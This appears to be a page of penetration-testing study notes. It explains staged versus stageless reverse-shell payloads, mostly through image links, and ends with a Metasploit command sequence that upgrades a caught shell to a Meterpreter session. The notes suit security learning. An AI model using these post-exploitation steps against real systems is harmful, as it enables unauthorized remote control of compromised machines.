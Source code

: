 # Shells

![](<../../../../.gitbook/assets/image (25) (1) (1) (1).png>)

## Staged Payloads

A payload that is not enough to create a shell itself

It is a downloader  part that needs to download and execute the rest of the payload

It is much smaller

![](<../../../../.gitbook/assets/image (29) (1) (1) (1) (1).png>)

You're required to use a Metasploit listener in order to receive the shell connection

The listerner payload has to be exactly the same as the msfvenom payload

![](<../../../../.gitbook/assets/image (35) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (26) (1) (1) (1).png>)

## Stageless Payloads

A standalone program that doesn't need anything additional, just the netcat listener on your computer

Its size is much bigger

![](<../../../../.gitbook/assets/image (37) (1) (1) (1).png>)

## Using Metasploit to Catch a Shell

![](<../../../../.gitbook/assets/image (34) (1) (1) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (36) (1) (1) (1) (1) (1) (1).png>)

### Upgrading to Meterpreter Shell

```
Ctrl+Z or background
use post/multi/manage/shell_to_meterpreter
set lhost [HOST]
set lport [PORT]
set session [SESSION ID]
run
```

